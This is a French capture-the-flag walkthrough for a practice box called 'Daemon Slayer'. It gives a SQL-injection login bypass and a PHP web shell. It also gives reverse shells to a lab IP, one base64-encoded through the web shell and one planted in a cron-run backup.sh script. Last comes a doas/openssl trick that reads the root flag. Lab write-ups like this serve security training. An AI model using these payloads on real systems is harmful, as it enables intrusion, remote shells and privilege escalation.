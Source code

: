 # Daemon Slayer - CTF Walkthrough

## Sommaire

1. [Accès au site web admin](#1-accès-au-site-web-admin)
2. [SQL Injection pour se connecter](#2-sql-injection-pour-se-connecter)
3. [Reverse Shell via Upload d'image](#3-reverse-shell-via-upload-dimage)
4. [Escalade via Cron Job](#4-escalade-via-cron-job)
5. [Escalade Root avec doas + OpenSSL](#5-escalade-root-avec-doas--openssl)

---

## 1. Accès au site web admin

On visite :

```
http://<BOX_IP>:445/upper/admin
```

## 2. SQL Injection pour se connecter

Login Bypass via SQLi :

```
admin' -- ' OR 1=1 --
```

On accède au dashboard administrateur.

## 3. Reverse Shell via Upload d'image

On remplace une image uploadée par un fichier `shell.php`. Celui-ci contient un payload codé en base64 :


``` php
<?php system($_GET['cmd']); ?>
```

On peut ensuite envoyer n'importe quel commande grace au `GET` donc on envoie un reverse shell :


```bash
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC45Mi41OS85MDAyIDA+JjE=" | base64 -d | bash
```

Décodé :

```bash
sh -i >& /dev/tcp/10.8.92.59/9002 0>&1
```

On écoute sur notre machine :

```bash
nc -lvnp 9002
```

Et on obtient un shell.


🎉 **1er Flag obtenu**

## 4. Escalade via Cron Job

On observe un cron job exécuté chaque minute par l'utilisateur `muzan` qui appelle un fichier `backup.sh`.

On supprime le fichier :

```bash
rm /home/muzan/backup.sh
```

Puis on le remplace avec notre propre payload reverse shell.

```bash
echo "bash -i >& /dev/tcp/10.8.92.59/9003 0>&1" > /home/muzan/backup.sh
chmod +x /home/muzan/backup.sh
```

Et on écoute :

```bash
nc -lvnp 9003
```

Shell en tant que `muzan` ✅

## 5. Escalade Root avec doas + OpenSSL

En tant que muzan, on vérifie les droits `doas` :

```bash
doas -l
```

Résultat : `muzan` peut utiliser `openssl` en tant que root sans mot de passe.

On utilise la commande suivante pour lire le flag root :

```bash
doas -u root openssl enc -in /root/root.txt
```

Cela permet de lire le contenu du fichier root flag (si chiffré, il faudra adapter avec le bon déchiffrement selon le contexte).

---

🔥 **Root obtenu sur Daemon Slayer !**


🎉 **2ème Flag obtenu**
Les démons n’avaient qu’à bien se tenir 😈
